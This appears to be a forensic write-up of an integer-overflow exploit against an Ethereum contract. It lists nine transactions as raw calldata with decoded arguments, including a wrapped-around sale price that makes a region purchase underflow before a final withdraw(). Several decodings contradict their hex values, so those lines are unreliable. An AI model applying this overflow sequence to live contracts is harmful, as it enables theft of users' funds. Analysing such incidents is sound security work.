# Contract Overflow Exploit

**Addresses Involved**

* [0x3BF442D1af9E5686E562832c21d42AC0DfA1ff16](https://etherscan.io/address/0x3BF442D1af9E5686E562832c21d42AC0DfA1ff16)
* [0xa000a5460102d5cf61847d58ce4fcde8ebe5dbf5](https://etherscan.io/address/0xa000a5460102d5cf61847d58ce4fcde8ebe5dbf5)
* [0x4265bcefc0aa08b8211396d8298821b15cea325e](https://etherscan.io/address/0x4265bcefc0aa08b8211396d8298821b15cea325e)

**Actions Taken**

1.

**[0x3bf442d1af9e5686e562832c21d42ac0dfa1ff16](https://etherscan.io/tx/0xd659bf4ac3cd1be0670ebd631260188e029f1679ea75b78bc29a5336a297c4ba)**

```
Function: buySection(uint256 _section_index, uint256 _image_id, string _md5)

 MethodID: 0x73da968d
 -[0]:00000000000000000000000000000000000000000000000000000000000013ec
 -[1]:0000000000000000000000000000000000000000000000000000000000001c46
 -[2]:0000000000000000000000000000000000000000000000000000000000000060
 -[3]:0000000000000000000000000000000000000000000000000000000000000020
 -[4]:6261633266663834646431323630326562616337613239303561306339313536

```

_Decoded:_

1. 5100
2. 7238
3. 96
4. 32
5. bac2ff84dd12602ebac7a2905a0c9156


2.

**[0xa000a5460102d5cf61847d58ce4fcde8ebe5dbf5](https://etherscan.io/tx/0x8f4f43aab3af060078778c30a230c5a1c923eb6a70d5bdfca09056a63cf3c04d)**

```
Function: buySection(uint256 _section_index, uint256 _image_id, string _md5)

MethodID: 0x73da968d
-[0]:00000000000000000000000000000000000000000000000000000000000013ed
-[1]:0000000000000000000000000000000000000000000000000000000000001c46
-[2]:0000000000000000000000000000000000000000000000000000000000000060
-[3]:0000000000000000000000000000000000000000000000000000000000000020
-[4]:6261633266663834646431323630326562616337613239303561306339313536
```

_Decoded:_

1. 5101
2. 7238
3. 96
4. 32
5. bac2ff84dd12602ebac7a2905a0c9156

3.

**[0x3bf442d1af9e5686e562832c21d42ac0dfa1ff16](https://etherscan.io/tx/0xa84538d7422fe997625822fa52ad11d140a5c59deaf536215262d64dafa48e62)**

```
Function: setRegionForSaleToAddress(uint256 _start_section_index, uint256 _end_section_index, uint256 _price, address _only_sell_to)

MethodID: 0x7e83027f
-[0]:00000000000000000000000000000000000000000000000000000000000013ec
-[1]:00000000000000000000000000000000000000000000000000000000000013ec
-[2]:0000000000000000000000000000000000000000000000000000000000000014
-[3]:0000000000000000000000004265bcefc0aa08b8211396d8298821b15cea325e
```

_Decoded:_

1. 5100
2. 5100
3. 20
4. 4265bcefc0aa08b8211396d8298821b15cea325e

4.

**[0x3bf442d1af9e5686e562832c21d42ac0dfa1ff16](https://etherscan.io/tx/0xcb3a713cff2c1f3984c25277fd1f637cbda75dda224e4d96848886a1f959f8fa)**

```
Function: setRegionForSaleToAddress(uint256 _start_section_index, uint256 _end_section_index, uint256 _price, address _only_sell_to)

MethodID: 0x7e83027f
-[0]:00000000000000000000000000000000000000000000000000000000000013ec
-[1]:00000000000000000000000000000000000000000000000000000000000013ec
-[2]:0000000000000000000000000000000000000000000000011b470eb374b4c000
-[3]:0000000000000000000000004265bcefc0aa08b8211396d8298821b15cea325e
```

_Decoded:_

1. 5100
2. 5100
3. ???? (11b470eb374b4c000)
4. 4265bcefc0aa08b8211396d8298821b15cea325e

5.

**[0x3bf442d1af9e5686e562832c21d42ac0dfa1ff16](https://etherscan.io/tx/0x1a20c7e4f66661712f4cd41a738104ef032b8f6c8692a4e2c45c5ef1ada9edc3)**

```
Function: setRegionForSaleToAddress(uint256 _start_section_index, uint256 _end_section_index, uint256 _price, address _only_sell_to)

MethodID: 0x7e83027f
-[0]:00000000000000000000000000000000000000000000000000000000000013ed
-[1]:00000000000000000000000000000000000000000000000000000000000013ed
-[2]:fffffffffffffffffffffffffffffffffffffffffffffffee4b8f14c8b4b4000
-[3]:0000000000000000000000004265bcefc0aa08b8211396d8298821b15cea325e
```

_Decoded:_

1. 5100
2. 5100
3. ???? (fffffffffffffffffffffffffffffffffffffffffffffffee4b8f14c8b4b4000)
4. 4265bcefc0aa08b8211396d8298821b15cea325e

6.

**[0x4265bcefc0aa08b8211396d8298821b15cea325e](https://etherscan.io/tx/0x438d602e49b422b49639cf0bc6f07974fce26728f1566abaf66d72e1579b8877)**

*Threw a bad instruction

```
Function: buyRegion(uint256 _start_section_index, uint256 _end_section_index, uint256 _image_id, string _md5)

MethodID: 0x5ebfed78
-[0]:00000000000000000000000000000000000000000000000000000000000013ec
-[1]:00000000000000000000000000000000000000000000000000000000000013ed
-[2]:0000000000000000000000000000000000000000000000000000000000001c46
-[3]:0000000000000000000000000000000000000000000000000000000000000080
-[4]:0000000000000000000000000000000000000000000000000000000000000020
-[5]:6261633266663834646431323630326562616337613239303561306339313536
```

_Decoded:_

1. 5100
2. 5101
3. 7238
4. 128
5. 32
5. bac2ff84dd12602ebac7a2905a0c9156

7.

**[0xa000a5460102d5cf61847d58ce4fcde8ebe5dbf5](https://etherscan.io/tx/0x3b1ce32f30314d11bd869b2ab4ee56cca1aa024c027b39f5e39577105b5024ee)**

```
Function: setRegionForSaleToAddress(uint256 _start_section_index, uint256 _end_section_index, uint256 _price, address _only_sell_to)

MethodID: 0x7e83027f
-[0]:00000000000000000000000000000000000000000000000000000000000013ed
-[1]:00000000000000000000000000000000000000000000000000000000000013ed
-[2]:fffffffffffffffffffffffffffffffffffffffffffffffee4b8f14c8b4b4000
-[3]:0000000000000000000000004265bcefc0aa08b8211396d8298821b15cea325e
```

_Decoded:_

1. 5101
2. 5101
3. ???? (fffffffffffffffffffffffffffffffffffffffffffffffee4b8f14c8b4b4000)
5. 4265bcefc0aa08b8211396d8298821b15cea325e

8.

**[0x4265bcefc0aa08b8211396d8298821b15cea325e](https://etherscan.io/tx/0x15e38f744de447abc439477217465a3c2b957720f5cc0ac6b1886bae5af7d2c8)**

```
Function: buyRegion(uint256 _start_section_index, uint256 _end_section_index, uint256 _image_id, string _md5)

MethodID: 0x5ebfed78
-[0]:00000000000000000000000000000000000000000000000000000000000013ec
-[1]:00000000000000000000000000000000000000000000000000000000000013ed
-[2]:0000000000000000000000000000000000000000000000000000000000001c46
-[3]:0000000000000000000000000000000000000000000000000000000000000080
-[4]:0000000000000000000000000000000000000000000000000000000000000020
-[5]:6261633266663834646431323630326562616337613239303561306339313536
```

_Decoded:_

1. 5100
2. 5101
3. 128
4. 32
5. bac2ff84dd12602ebac7a2905a0c9156

9.

**[0x3bf442d1af9e5686e562832c21d42ac0dfa1ff16](https://etherscan.io/tx/0xe3081eb8b47fac83ed42d079ee344b79c69f1b2328c1180c4d07baef6e935f16)**


```
Function: withdraw()

MethodID: 0x3ccfd60b
```
